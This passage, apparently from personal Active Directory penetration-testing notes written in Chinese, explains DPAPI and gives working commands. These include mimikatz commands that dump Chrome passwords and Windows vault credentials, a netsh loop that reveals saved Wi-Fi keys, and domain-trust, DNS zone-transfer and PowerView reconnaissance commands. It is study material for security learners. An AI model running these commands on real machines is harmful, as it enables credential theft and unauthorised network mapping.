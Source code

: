 DPAPI(Data Protection API)即文件保护API，提供了加密函数 CryptProtectData 与解密函数 CryptUnprotectData。我的理解就是一套对外提供加解密的接口，为用户和系统进程提供操作系统级别（底层）的数据保护服务
这个还是挺有意思的，之前没接触过，实操一边记录一下：

1. mimikatz抓chrome密码（这里直接在本机上抓）
   `mimikatz dpapi::chrome /in:"%localappdata%\Google\Chrome\User Data\Default\Login Data" /unprotect`

   ![](https://github.com/chriskaliX/AD-Pentest-Notes/raw/master/imgs/chrome.png)

2. mimikatz解密Credential（需要管理员权限）
   `mimikatz vault::cred /patch`
   ![](https://github.com/chriskaliX/AD-Pentest-Notes/raw/master/imgs/vault.png)

### 域信任

> 这里应该要去搭建多域环境，先挖一个坑，后面再回来看看

`nltest /domain_trusts`

### 域传送

> 补充原理：DNS服务器分为主、备以及缓存服务器。主备之间同步数据，需要通过DNS域传送。具体指备服务器需要从主服务器拷贝数据来更新自身数据库。其原因为配置不当，如果存在则很快将内部的网络拓扑泄露

windows下的利用方法：

1. nslookup -type=ns domain.com （查出ns服务器）
2. nslookup
3. server xxx.domain.com（查出的ns服务器）
4. ls domain.com

linux下利用方法：

​	dig  @dns.domain.com axfr domain.com

### DNS记录获取

这里用PowerView实现

1. Import-Module PowerView.ps1
2. Get-DNSRecord  -ZoneName xxcom.local

![](https://github.com/chriskaliX/AD-Pentest-Notes/raw/master/imgs/dns.png)

### WIFI

> 这个我觉得挺好的哈哈哈，个人PC机器很有用

`for /f "skip=9 tokens=1,2 delims=:" %i in ('netsh wlan show profiles')  do @echo %j | findstr -i -v echo |  netsh wlan show profiles %j key=clear`
![](https://github.com/chriskaliX/AD-Pentest-Notes/raw/master/imgs/WIFI.png)

### 组策略|GPP

> 这个经常会出现，光看两个文件或者操作一下命令觉得不印象深刻，还是稍微看一下来的比较实在
